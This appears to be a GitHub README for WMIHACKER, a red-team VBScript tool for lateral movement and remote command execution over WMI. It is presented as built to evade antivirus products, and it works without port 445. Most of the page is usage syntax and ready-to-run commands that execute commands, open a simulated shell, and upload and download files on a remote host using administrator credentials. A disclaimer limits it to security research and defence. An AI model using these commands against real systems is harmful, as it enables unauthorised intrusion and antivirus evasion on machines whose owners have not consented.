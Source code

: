 # WMIHACKER(无需445端口)
> 免责声明：本项目涉及的技术仅供安全学习与研究防御用途，禁止非法使用！

**联系我: _xiangshan(微信)**

免杀横向移动命令执行测试工具(无需445端口)

介绍：免杀横向渗透远程命令执行，常见的WMIEXEC、PSEXEC执行命令是创建服务或调用Win32_Process.create执行命令，这些方式都已经被杀软100%拦截，通过改造出WMIHACKER免杀横向移动测试工具。(无需445端口)

主要功能：1、命令执行；2、文件上传；3、文件下载

## 使用
```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

有命令回显执行方式

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

无命令回显

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

模拟shell模式

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

文件上传-复制本机calc.exe到远程主机c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

文件下载-下载远程主机calc.exe到本地c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `

